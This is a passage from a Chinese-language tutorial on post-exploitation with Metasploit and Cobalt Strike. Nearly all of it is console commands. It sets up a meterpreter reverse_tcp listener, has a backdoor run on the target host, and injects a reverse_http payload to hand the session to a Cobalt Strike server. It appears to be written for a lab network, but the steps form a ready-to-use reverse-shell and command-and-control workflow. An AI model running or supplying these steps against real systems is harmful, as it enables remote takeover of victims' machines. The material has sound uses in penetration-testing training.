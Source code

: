 2.3 配置监控并获取meterpreter

启动msf

`msfconsole`

创建监控

`use exploit/multi/handler`

加载payload

`set payload windows/meterpreter/reverse_tcp`

配置监控参数

`show options`

`set lhost 192.168.70.3  `  

`set lport 4444`   监控端口

`run`  执行

去靶机执行后门程序 等待返回 meterpreter

2.4 后台当前session

`background`

## 3 使用CS进行监控

1 加载MSF的payload 注入功能

`use exploit/windows/local/payload_inject`

2 设置payload

`set payload windows/meterpreter/reverse_http`

3   查看配置参数

`show options`

`set lhost 192.168.70.3`

设置cs服务器地址

4 `set lport 4567`

设置cs监听端口

5 `set session 1`

设置监控会话

6 `set DisablePayloadHandler true`

设置当前msf不接受监听数据

7 `run`

执行设置

4 CS开始实战操作
